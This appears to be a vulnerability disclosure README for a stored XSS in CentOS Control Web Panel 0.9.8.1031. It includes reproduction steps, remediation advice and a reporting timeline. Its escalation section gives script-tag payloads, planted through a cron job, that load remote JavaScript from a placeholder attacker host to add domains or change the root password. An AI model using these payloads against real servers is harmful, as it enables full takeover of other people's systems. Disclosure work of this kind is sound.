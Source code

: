 Exploiting an XSS vulnerability in the CWP control panel and escalating the attack to change the root password...

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) Version 0.9.8.1031 - XSS to full root takeover
# Date                : 7 january 2021
# Exploit Author      : Chokri B.A.
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.1031
# Tested on           : CentOS 7 / CentOS 6
# CVE                 : #
```

# Description
A simple user can add/delete/modify any option on behalf of the root user, and even change the root's password via a stored XSS vulnerability.

#  Steps to Reproduce
1. Login into the CentOS Web Panel using user credential
2. Create a new cron job using your prefered XSS payload.
3. Login as root and navigate to the list of cronjobs
4. the XSS payload will get executed.

#  Escalating
I've created 2 examples on how you can escalate this attack to take control of the full server.

1. <b>PayloadAddDomain.js</b> : add this code as your cronjob, when the root user list the cronjobs, a new domain name will be added under the choosen user.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadAddDomain.js"></script>
```


2. <b>PayloadChangeRootPass.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to change to root's password and take control of the full server.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadChangeRootPass.js"></script>
```


3. You can perform any action you want as the root user. The only limit is your imagination....

#  Solution - Fix & Patch
The vulnerability can be patched by a secure parse and encode of the vulnerable input fields.
Disallow usage of special chars and restrict the parameter input to prevent application-side script code injection attacks.
Filter in the output error or the item listing the vulnerable location were the code executes.


#  Timeline

```
2021-01-07: Discovered the bug
2021-01-08: Reported to vendor
#: Vender accepted the vulnerability
#: The vulnerability has been fixed
#: Published
```
